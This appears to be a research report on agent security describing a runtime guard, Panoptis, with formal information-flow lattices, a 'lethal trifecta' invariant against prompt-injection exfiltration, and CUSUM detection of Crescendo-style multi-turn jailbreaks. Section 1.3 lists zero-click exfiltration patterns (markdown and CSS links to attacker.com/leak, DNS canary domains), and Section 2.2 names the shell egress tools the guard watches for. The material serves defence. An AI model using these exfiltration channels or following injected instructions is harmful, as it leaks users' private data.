

# Deepest Agentic Security Research & Runtime Architecture (2026)

## Executive Abstract

Autonomous agent systems operating with native tool use, filesystem manipulation, shell execution, and Model Context Protocols (MCP) face an unprecedented attack surface. Traditional text-based safety guardrails (system prompts, regex filters, and output re-prompting) fail against indirect prompt injection, multi-turn semantic drift, and autonomous payload assembly.

This research report synthesizes the latest security breakthroughs from academic literature and industry red teams (2024–2026), formalizing their threat models into executable, deterministic runtime invariants implemented within **Panoptis**.

---

## 1. The 2025–2026 Threat Landscape: Key Attack Vectors

### 1.1 The "Lethal Trifecta" (Willison & Rehberger, 2025)
An autonomous agent becomes critically vulnerable to zero-click autonomous exploitation when three capabilities converge in a single execution boundary:
1. **Access to Private Data:** Ability to read internal files, environment variables, credentials, or proprietary databases.
2. **Ingestion of Untrusted Content:** Processing data from unverified external sources (web pages, customer issues, emails, unverified Git repositories).
3. **Outbound Communication Channels:** Ability to invoke network egress (HTTP requests, external webhooks, email forwarding, or shell commands executing network utilities).

**The Invariant Breach:** Because Large Language Models process data and instructions within the same context window, untrusted input containing prompt injections can hijack reasoning, instruct the agent to access private data, and exfiltrate it over the outbound channel without user awareness.

### 1.2 Dual-Lattice Information Flow Control (FIDES, Microsoft Research 2025)
*Costa et al. (arXiv:2505.23643)* demonstrated that securing agentic workflows requires formal **Information Flow Control (IFC)** across two distinct dimensions:
* **Confidentiality Lattice (Denning):** Enforces non-interference ($C_{src} \le C_{dst}$); prevents secret data from flowing downward into public or lower-clearance sinks.
* **Integrity Lattice (Biba):** Enforces integrity preservation ($I_{src} \ge I_{dst}$); prevents low-integrity (untrusted external) data from invoking high-consequence execution sinks without explicit declassification or human authorization.

### 1.3 Zero-Click Covert Exfiltration Channels
Attackers exploit client-side Markdown, HTML, and CSS renderers to trigger automatic out-of-band network requests:
* **Markdown Inline & Reference Images:** `` and `[ref]: https://attacker.com/leak?k=...`
* **HTML Prefetch & Media Tags:** ``, `<iframe src="...">`, `<link rel="prefetch" href="...">`
* **CSS Background Injections:** `url('https://attacker.com/leak?k=...')`
* **OAST & DNS Canary Beacons:** Querying unique subdomains under `burpcollaborator.net`, `oastify.com`, `canarytokens.com` to exfiltrate bits via DNS resolution.

### 1.4 Sequential Drift & CUSUM Alarms (Page 1954; CURA 2026)
Incremental jailbreaks ("boiling the frog") like Microsoft's *Crescendo* attack incrementally escalate conversational risk over multiple turns. Individual turn-level classifiers often classify each step as benign. By tracking the **Cumulative Sum (CUSUM)**:
$$S_t = \max(0, S_{t-1} + (X_t - k))$$
a runtime hypervisor detects subtle, monotonic drift toward restricted capabilities well before an irreversible policy breach occurs.

---

## 2. Panoptis Architecture & Mathematical Formalization

### 2.1 The Dual-Lattice Formulation

Panoptis models tool interactions over the product lattice $\mathcal{L} = \mathcal{C} \times \mathcal{I}$:

$$\mathcal{C} = \langle \{\text{PUBLIC}, \text{INTERNAL}, \text{CONFIDENTIAL}, \text{RESTRICTED}, \text{SECRET}\}, \le_{\mathcal{C}}, \sqcup_{\mathcal{C}}, \sqcap_{\mathcal{C}} \rangle$$
$$\mathcal{I} = \langle \{\text{UNTRUSTED}, \text{COMMUNITY}, \text{INTERNAL}, \text{TRUSTED}, \text{AUTHORITATIVE}\}, \le_{\mathcal{I}}, \sqcup_{\mathcal{I}}, \sqcap_{\mathcal{I}} \rangle$$

#### Ordering & Join Properties:
1. **Confidentiality:**
   $$\text{PUBLIC} < \text{INTERNAL} < \text{CONFIDENTIAL} < \text{RESTRICTED} < \text{SECRET}$$
   $$L_1 \sqcup_{\mathcal{C}} L_2 = \max(L_1, L_2)$$
   Flow valid into sink $S$ iff $L_{\text{data}} \le_{\mathcal{C}} S_{\text{clearance}}$.

2. **Integrity (Biba Dual):**
   $$\text{UNTRUSTED} < \text{COMMUNITY} < \text{INTERNAL} < \text{TRUSTED} < \text{AUTHORITATIVE}$$
   $$I_1 \sqcup_{\mathcal{I}} I_2 = \min(I_1, I_2)$$
   Flow valid into target $T$ iff $I_{\text{data}} \ge_{\mathcal{I}} T_{\text{requirement}}$.

### 2.2 Dynamic Sink Clearance Resolution
Consequential execution tools such as `execute_shell`, `bash`, and `powershell` cannot have static clearances. If a shell command invokes egress utilities (`curl`, `wget`, `nc`, `Invoke-WebRequest`, `/dev/tcp`), the effective sink clearance dynamically collapses to $\text{PUBLIC}$:

$$\text{Clearance}_{\text{eff}}(\text{tool}, \text{args}) = \begin{cases} 
\text{PUBLIC} & \text{if } \text{tool} \in \text{ShellTools} \land \text{matches\_egress}(\text{args}) \\
\text{Clearance}_{\text{static}}(\text{tool}) & \text{otherwise}
\end{cases}$$

### 2.3 Lethal Trifecta Invariant Enforcement
For session $\sigma$, the hypervisor maintains state variables:
$$\text{Trifecta}(\sigma) = \langle \text{read\_private}, \text{untrusted\_input}, I_{\text{active}} \rangle$$

The safety invariant is defined as:
$$\forall a \in \text{Actions}(\sigma): \Big( \text{is\_egress}(a) \land \text{read\_private}(\sigma) \land \text{untrusted\_input}(\sigma) \Big) \implies \text{Verdict}(a) = \text{BLOCK}$$

---

## 3. Implementation Verification & Empirical Results

Panoptis tests verify these runtime guarantees across all layers:

| Component | Test File | Security Vector Addressed | Status |
|---|---|---|:---:|
| **Dual-Lattice IFC** | `test_dual_lattice_biba_integrity_and_denning_confidentiality` | Biba integrity degradation & Denning confidentiality | **PASS** |
| **Dynamic Shell Egress** | `test_dynamic_shell_egress_sink_clearance` | Egress command detection inside generic shell tools | **PASS** |
| **Lethal Trifecta** | `test_lethal_trifecta_invariant_enforcement` | Autonomous zero-click exfiltration prevention | **PASS** |
| **Zero-Click Exfil Defanging** | `test_zero_click_exfiltration_defanged` | Markdown refs, HTML media, CSS `url()`, OAST/DNS tokens | **PASS** |
| **LRU Memory Bounding** | `test_taint_tracker_and_crescendo_lru_bounding` | Denial of Service & memory leak prevention ($O(1)$) | **PASS** |
| **CUSUM Sequential Drift** | `test_crescendo_cusum_sequential_drift` | Multi-turn subtle drift detection | **PASS** |

---

## 4. Operational Summary

With these formal models active:
1. Untrusted inputs cannot hijack high-integrity actions without explicit human-in-the-loop review.
2. Private secrets and proprietary files cannot be exfiltrated through covert encoding, shell pipelines, or outbound network calls.
3. Memory structures scale deterministically in production multi-tenant deployments without state exhaustion.
